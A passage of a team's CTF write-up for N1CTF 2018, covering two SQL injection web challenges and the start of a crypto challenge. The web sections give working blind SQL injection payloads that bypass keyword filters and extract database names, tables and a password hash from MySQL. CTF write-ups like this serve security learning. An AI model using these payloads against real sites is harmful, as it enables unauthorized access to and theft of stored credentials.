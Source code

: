 [Someone](https://github.com/rkmylo/ctf-write-ups/blob/master/2018-n1ctf/web/77777-104/solve.py) provides this shorter payload `ord(substr(password,INDEX,1))

### 77777 2 (bookgin) unsolved
- The column name `pw` is WAFed, but in fact it just **did not allow the `pw` keyword to be prefixed or followed by any characters apart from whitespaces**.  (why....?)
- `where` is WAFed.
- Not WAFed: `substr select from if & *`
- Payload: `convert(hex(substr( pw ,1 ,1)),signed)`

Reference: 
- https://github.com/rkmylo/ctf-write-ups/tree/master/2018-n1ctf/web/77777-2-208
- https://delcoding.github.io/2018/03/n1ctf-writeup/

### babysqli (bookgin) unsolved

sql injection 的點是使用者大頭照，有 `1.png` & `2.png`，但 `information` 被 WAF，所以不好取得 database_name

Payload 1: 
```sql
'or((select(substr((select(user())),<GUESS_INDEX>,1))='<GUESS_CHAR>')=1)#`
```

Payload 2:
```sql
'=if(ascii(substring((select(group_concat(database_name))from(mysql.innodb_table_stats)),%d,1))>%d,1,0)='
```
- 然後拿到 database `sys，mysql，n1ctf_2018_venenof7`
- `n1ctf_2018_venenof7` 有`vimg,vusers` 兩張 tables
- `vusers` 有個 column 叫 `password` ，跑出来`ac895b772a4ec1eff81e07aa2907afe3`

拿去主辦官方的網頁做 md5 decrypt 噴 flag


Reference: 
- http://www.bendawang.site/2018/03/13/N1CTF-2018-Web-writeup/
- https://github.com/Nu1LCTF/n1ctf-2018/blob/master/writeups/web/babysqli.md
- http://www.zhutougg.com/2017/04/25/mysqlshu-ju-ku-de-innodbyin-qing-de-zhu-ru/


## Crypto
### baby_N1ES (shw)
We are given the source code of encryption and a ciphertext.
```python
def encrypt(self, plaintext):
    if (len(plaintext) % 16 != 0 or isinstance(plaintext, bytes) == False):
        raise Exception("plaintext must be a multiple of 16 in length")
    res = ''
    for i in range(len(plaintext) / 16):
        block = plaintext[i * 16:(i + 1) * 16]
        L = block[:8]
        R = block[8:]
        for round_cnt in range(32):
            L, R = R, (round_add(L, self.Kn[round_cnt]))
        L, R = R, L
        res += L + R
    return res
```
And the function `round_add()`:
```python
def round_add(a, b):
    f = lambda x, y: x + y - 2 * (x & y)
    res = ''
    for i in range(len(a)):
        res += chr(f(ord(a[i]), ord(b[i])))
    return res
```

[haskell]: https://ghc.haskell.org/trac/ghc/wiki/Commentary/Rts/Cmm